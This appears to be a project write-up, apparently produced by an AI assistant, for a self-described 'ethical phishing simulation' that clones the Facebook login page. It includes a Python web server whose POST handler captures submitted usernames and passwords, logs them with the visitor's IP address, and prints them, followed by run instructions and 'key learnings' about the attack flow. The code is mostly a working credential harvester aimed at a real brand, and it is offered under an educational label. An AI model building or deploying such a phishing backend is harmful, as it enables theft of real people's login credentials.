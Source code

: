 

### **Ethical Phishing Simulation: Facebook Login Page**

```python
class PhishingHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/capture.php':
            post_data = self.rfile.read(content_length).decode('utf-8')
            parsed_data = urllib.parse.parse_qs(post_data)

            username = parsed_data.get(USERNAME_FIELD_NAME, [''])[0]
            password = parsed_data.get(PASSWORD_FIELD_NAME, [''])[0]

            timestamp = time.strftime("%Y-%m-%d %H:%M:%S")
            log_entry = f"[{timestamp}] IP: {self.client_address[0]} - User: {username}, Pass: {password}\n"

            with open(LOG_FILE, "a") as f:
                f.write(log_entry)

            print(f"[+] Captured: User: {username}, Pass: {password} (Logged to {LOG_FILE})")

    def do_GET(self):
        if self.path == '/':
            self.path = '/index.html'
        return http.server.SimpleHTTPRequestHandler.do_GET(self)

with socketserver.TCPServer(("", PORT), PhishingHandler) as httpd:
    print(f"[*] Starting phishing server on http://0.0.0.0:{PORT}")
    print(f"[*] Phishing page: http://0.0.0.0:{PORT}")
    print(f"[*] Captured credentials will be saved to: {LOG_FILE}")
    print("[*] Waiting for submissions... (Press Ctrl+C to stop)")
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print("\n[*] Server stopped.")
```

---

### **4. Start the Server & Test**
Run the server from your terminal:

```bash
python3 server.py
```

1. Open a browser and navigate to `http://localhost:8000`.
2. Enter fake credentials, click **"Log In"**, and observe the captured data in your terminal and `logs/captured_credentials.txt` file.

---

### **Key Learnings & Accomplishments**
- **Social Engineering**: The project highlights how a visually convincing clone can be used to deceive users.
- **Attack Lifecycle**: Gained hands-on experience with the complete attack flow, from cloning a target to capturing credentials.
- **Server-Side Logic**: Developed a functional Python web server to serve static assets and capture form data.

---

### **Demo**
- **Static Image**:  
  ![Facebook Clone](https://github.com/melvincwng/facebook-clone/blob/master/images/fbclone.JPG)

- **Animated GIF**:  
  ![Facebook Clone GIF](https://github.com/melvincwng/facebook-clone/blob/master/images/fbclone.gif)

---

### **Extras**
There are **4 animated background images** available (spring, summer, autumn, winter). One of them will be randomly chosen when you load the webpage. Which one will you get? 😉  

--- 

Let me know if you'd like any further refinements!
